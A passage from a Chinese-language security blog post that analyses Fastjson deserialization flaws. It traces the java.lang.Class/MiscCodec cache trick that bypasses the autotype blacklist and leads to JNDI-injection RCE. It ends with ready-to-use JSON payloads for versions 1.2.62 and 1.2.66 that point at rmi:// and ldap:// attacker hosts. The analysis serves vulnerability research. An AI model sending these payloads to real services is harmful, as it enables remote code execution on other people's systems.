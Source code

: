 ```java
}
```
然后开始解析json，当传入type时进入checkAutoType()检查类
![image.png](https://y4er.com/img/uploads/20200426116782.png)

在调用解析时我们没有传入预期的反序列化对象的对应类名时，会从mapping中或者deserializers.findClass()寻找
![image.png](https://y4er.com/img/uploads/20200426114621.png)
当找到类之后会直接return class，不会再进行autotype和黑名单校验，而在deserializers中有`java.lang.Class`
![image.png](https://y4er.com/img/uploads/20200426115596.png)

继续解析
![image.png](https://y4er.com/img/uploads/20200426117492.png)

获取到java.lang.class对应的反序列化处理类`com.alibaba.fastjson.serializer.MiscCodec`，然后开始deserializer.deserialze()反序列化
![image.png](https://y4er.com/img/uploads/20200426111709.png)
parser.parse()获取val的值
![image.png](https://y4er.com/img/uploads/20200426116949.png)
赋值给strVal，然后经过一系列判断之后
![image.png](https://y4er.com/img/uploads/20200426113708.png)
传入TypeUtils.loadClass()

在loadclass中将strVal加入到mapping中
![image.png](https://y4er.com/img/uploads/20200426118022.png)

此时mapping中有了jdbc的类名，而Mappings是ConcurrentMap类的，顾名思义就是在当前连接会话生效。所以我们需要在一次连接会话同时传入两个json键值对时，此次连接未断开时，继续解析第二个json键值对，然后和上文中提到的一样，在校验autotype和黑名单之前就已经return了clazz，变相绕过了黑名单，利用JNDI注入RCE。

### 1.2.48
黑名单多了两条，MiscCodec中将默认传入的cache变为false，checkAutoType()调整了逻辑

### 1.2.62
黑名单绕过
```json
{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://127.0.0.1:1099/exploit"}";
```
### 1.2.66
也是黑名单绕过

```java
// 需要autotype true
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://192.168.80.1:1389/Calc"}}
```
## 总结
从`@type`属性牵扯出来一系列的RCE，整个过程分析下来还是很有收获，不停的bypass才是反序列化的最大乐趣。
